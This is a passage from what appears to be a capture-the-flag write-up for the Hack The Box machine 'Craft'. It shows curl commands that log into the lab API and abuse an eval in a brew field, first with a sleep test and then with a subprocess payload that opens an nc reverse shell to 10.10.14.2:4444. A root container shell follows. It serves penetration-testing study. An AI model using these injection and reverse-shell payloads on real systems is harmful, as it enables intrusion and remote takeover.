 To get a token, I'll do a GET to `/auth/login` and pass the credentials with HTTP basic auth:

`curl -H "Content-Type: application/json" --user dinesh:4aUh0A8PbVJxgd -k https://api.craft.htb/api/auth/login
{"token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTYzMTUzODU2fQ.hs-9F_c_KXIHEQg4tmgaRWacmEC402tsgtolQPZB3ik"}`

The token is only valid for a short period of time so I'll use jq to parse the output and assign it to a variable and I use for my other curl requests:

`token=$(curl -s -H "Content-Type: application/json" --user dinesh:4aUh0A8PbVJxgd -k https://api.craft.htb/api/auth/login | jq -r .[])
echo $token
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTYzMTU0MTAzfQ.JPg8sJ9enjgL86jy8DJrugK7xaF--wegrVdKXZLono0`

I can now do POST to add new brews:

`curl -k -H "Accept: application/json" -H "Content-Type: application/json" -H "X-Craft-API-Token: $token" https://api.craft.htb/api/brew/ -XPOST -d '{"id": 666, "brewer": "Snowscan", "name": "Snowscan", "style": "IPA", "abv": "0.95"}'
null`

When doing a GET, I need to specify the page so I can confirm it's been added:

`curl -k "https://api.craft.htb/api/brew/?per_page=50&page=47"
 {"id": 2351, "brewer": "Snowscan", "name": "Snowscan", "style": "IPA", "abv": "0.950"}, {"id": 2352, "brewer": "Snowscan", "name": "Snowscan", "style": "IPA", "abv": "0.400"}], "page": 47, "pages": 47, "per_page": 50, "total": 2341}`

Ok, now it's time to exploit that eval to gain RCE. Because I don't see the results of the eval, I'll first test that the eval works by doing a `sleep` for 5 seconds:

`curl -k -H "Accept: application/json" -H "Content-Type: application/json" -H "X-Craft-API-Token: $token" https://api.craft.htb/api/brew/ -XPOST -d '{"id": 1000, "brewer": "Snowscan", "name": "Snowscan", "style": "IPA", "abv": "__import__(\"time\").sleep(5)"}'`

Then after I confirmed that the eval works, I'll use `subprocess` to spawn a reverse shell:

`curl -k -H "Accept: application/json" -H "Content-Type: application/json" -H "X-Craft-API-Token: $token" https://api.craft.htb/api/brew/ -XPOST -d '{"id": 1000, "brewer": "Snowscan", "name": "Snowscan", "style": "IPA", "abv": "__import__(\"subprocess\").check_output(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 4444 >/tmp/f\", shell=True) or 1"}'`

```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.110] 43065
/bin/sh: can't access tty; job control turned off
/opt/app # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)...
/opt/app #
```

Turns out this is just a container and I need to keep looking to get a shell on the host OS.

## Finding more credentials in MySQL

